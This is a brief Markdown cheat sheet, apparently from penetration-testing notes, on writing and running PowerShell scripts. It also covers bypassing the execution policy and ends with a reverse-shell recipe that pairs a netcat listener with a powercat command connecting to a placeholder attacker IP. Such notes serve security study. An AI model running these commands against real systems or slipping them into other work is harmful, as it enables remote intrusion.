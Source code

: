 # Powershell

Open a text editor and enter: 

    Write-Output "something"

Save the file with a `.PS1` extension and execute it from the cmd: 

    powershell -File scriptname.ps1

## Execution policy

To check if we are restricted: 

    Get-ExecutionPolicy

If so, change it with: 

    Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Or bypass restrictions when executing the script: 

    powershell -ex bypass -File scriptname.ps1

## Reverse shell

We can use powercat.

Set up a listener on the attack machine: 

    nc -lvp 443

Launch powercat:

    powershell -c "powercat -c ATTACKING-MACHINE-IPP -p 443 -e cmd"

We get a shell.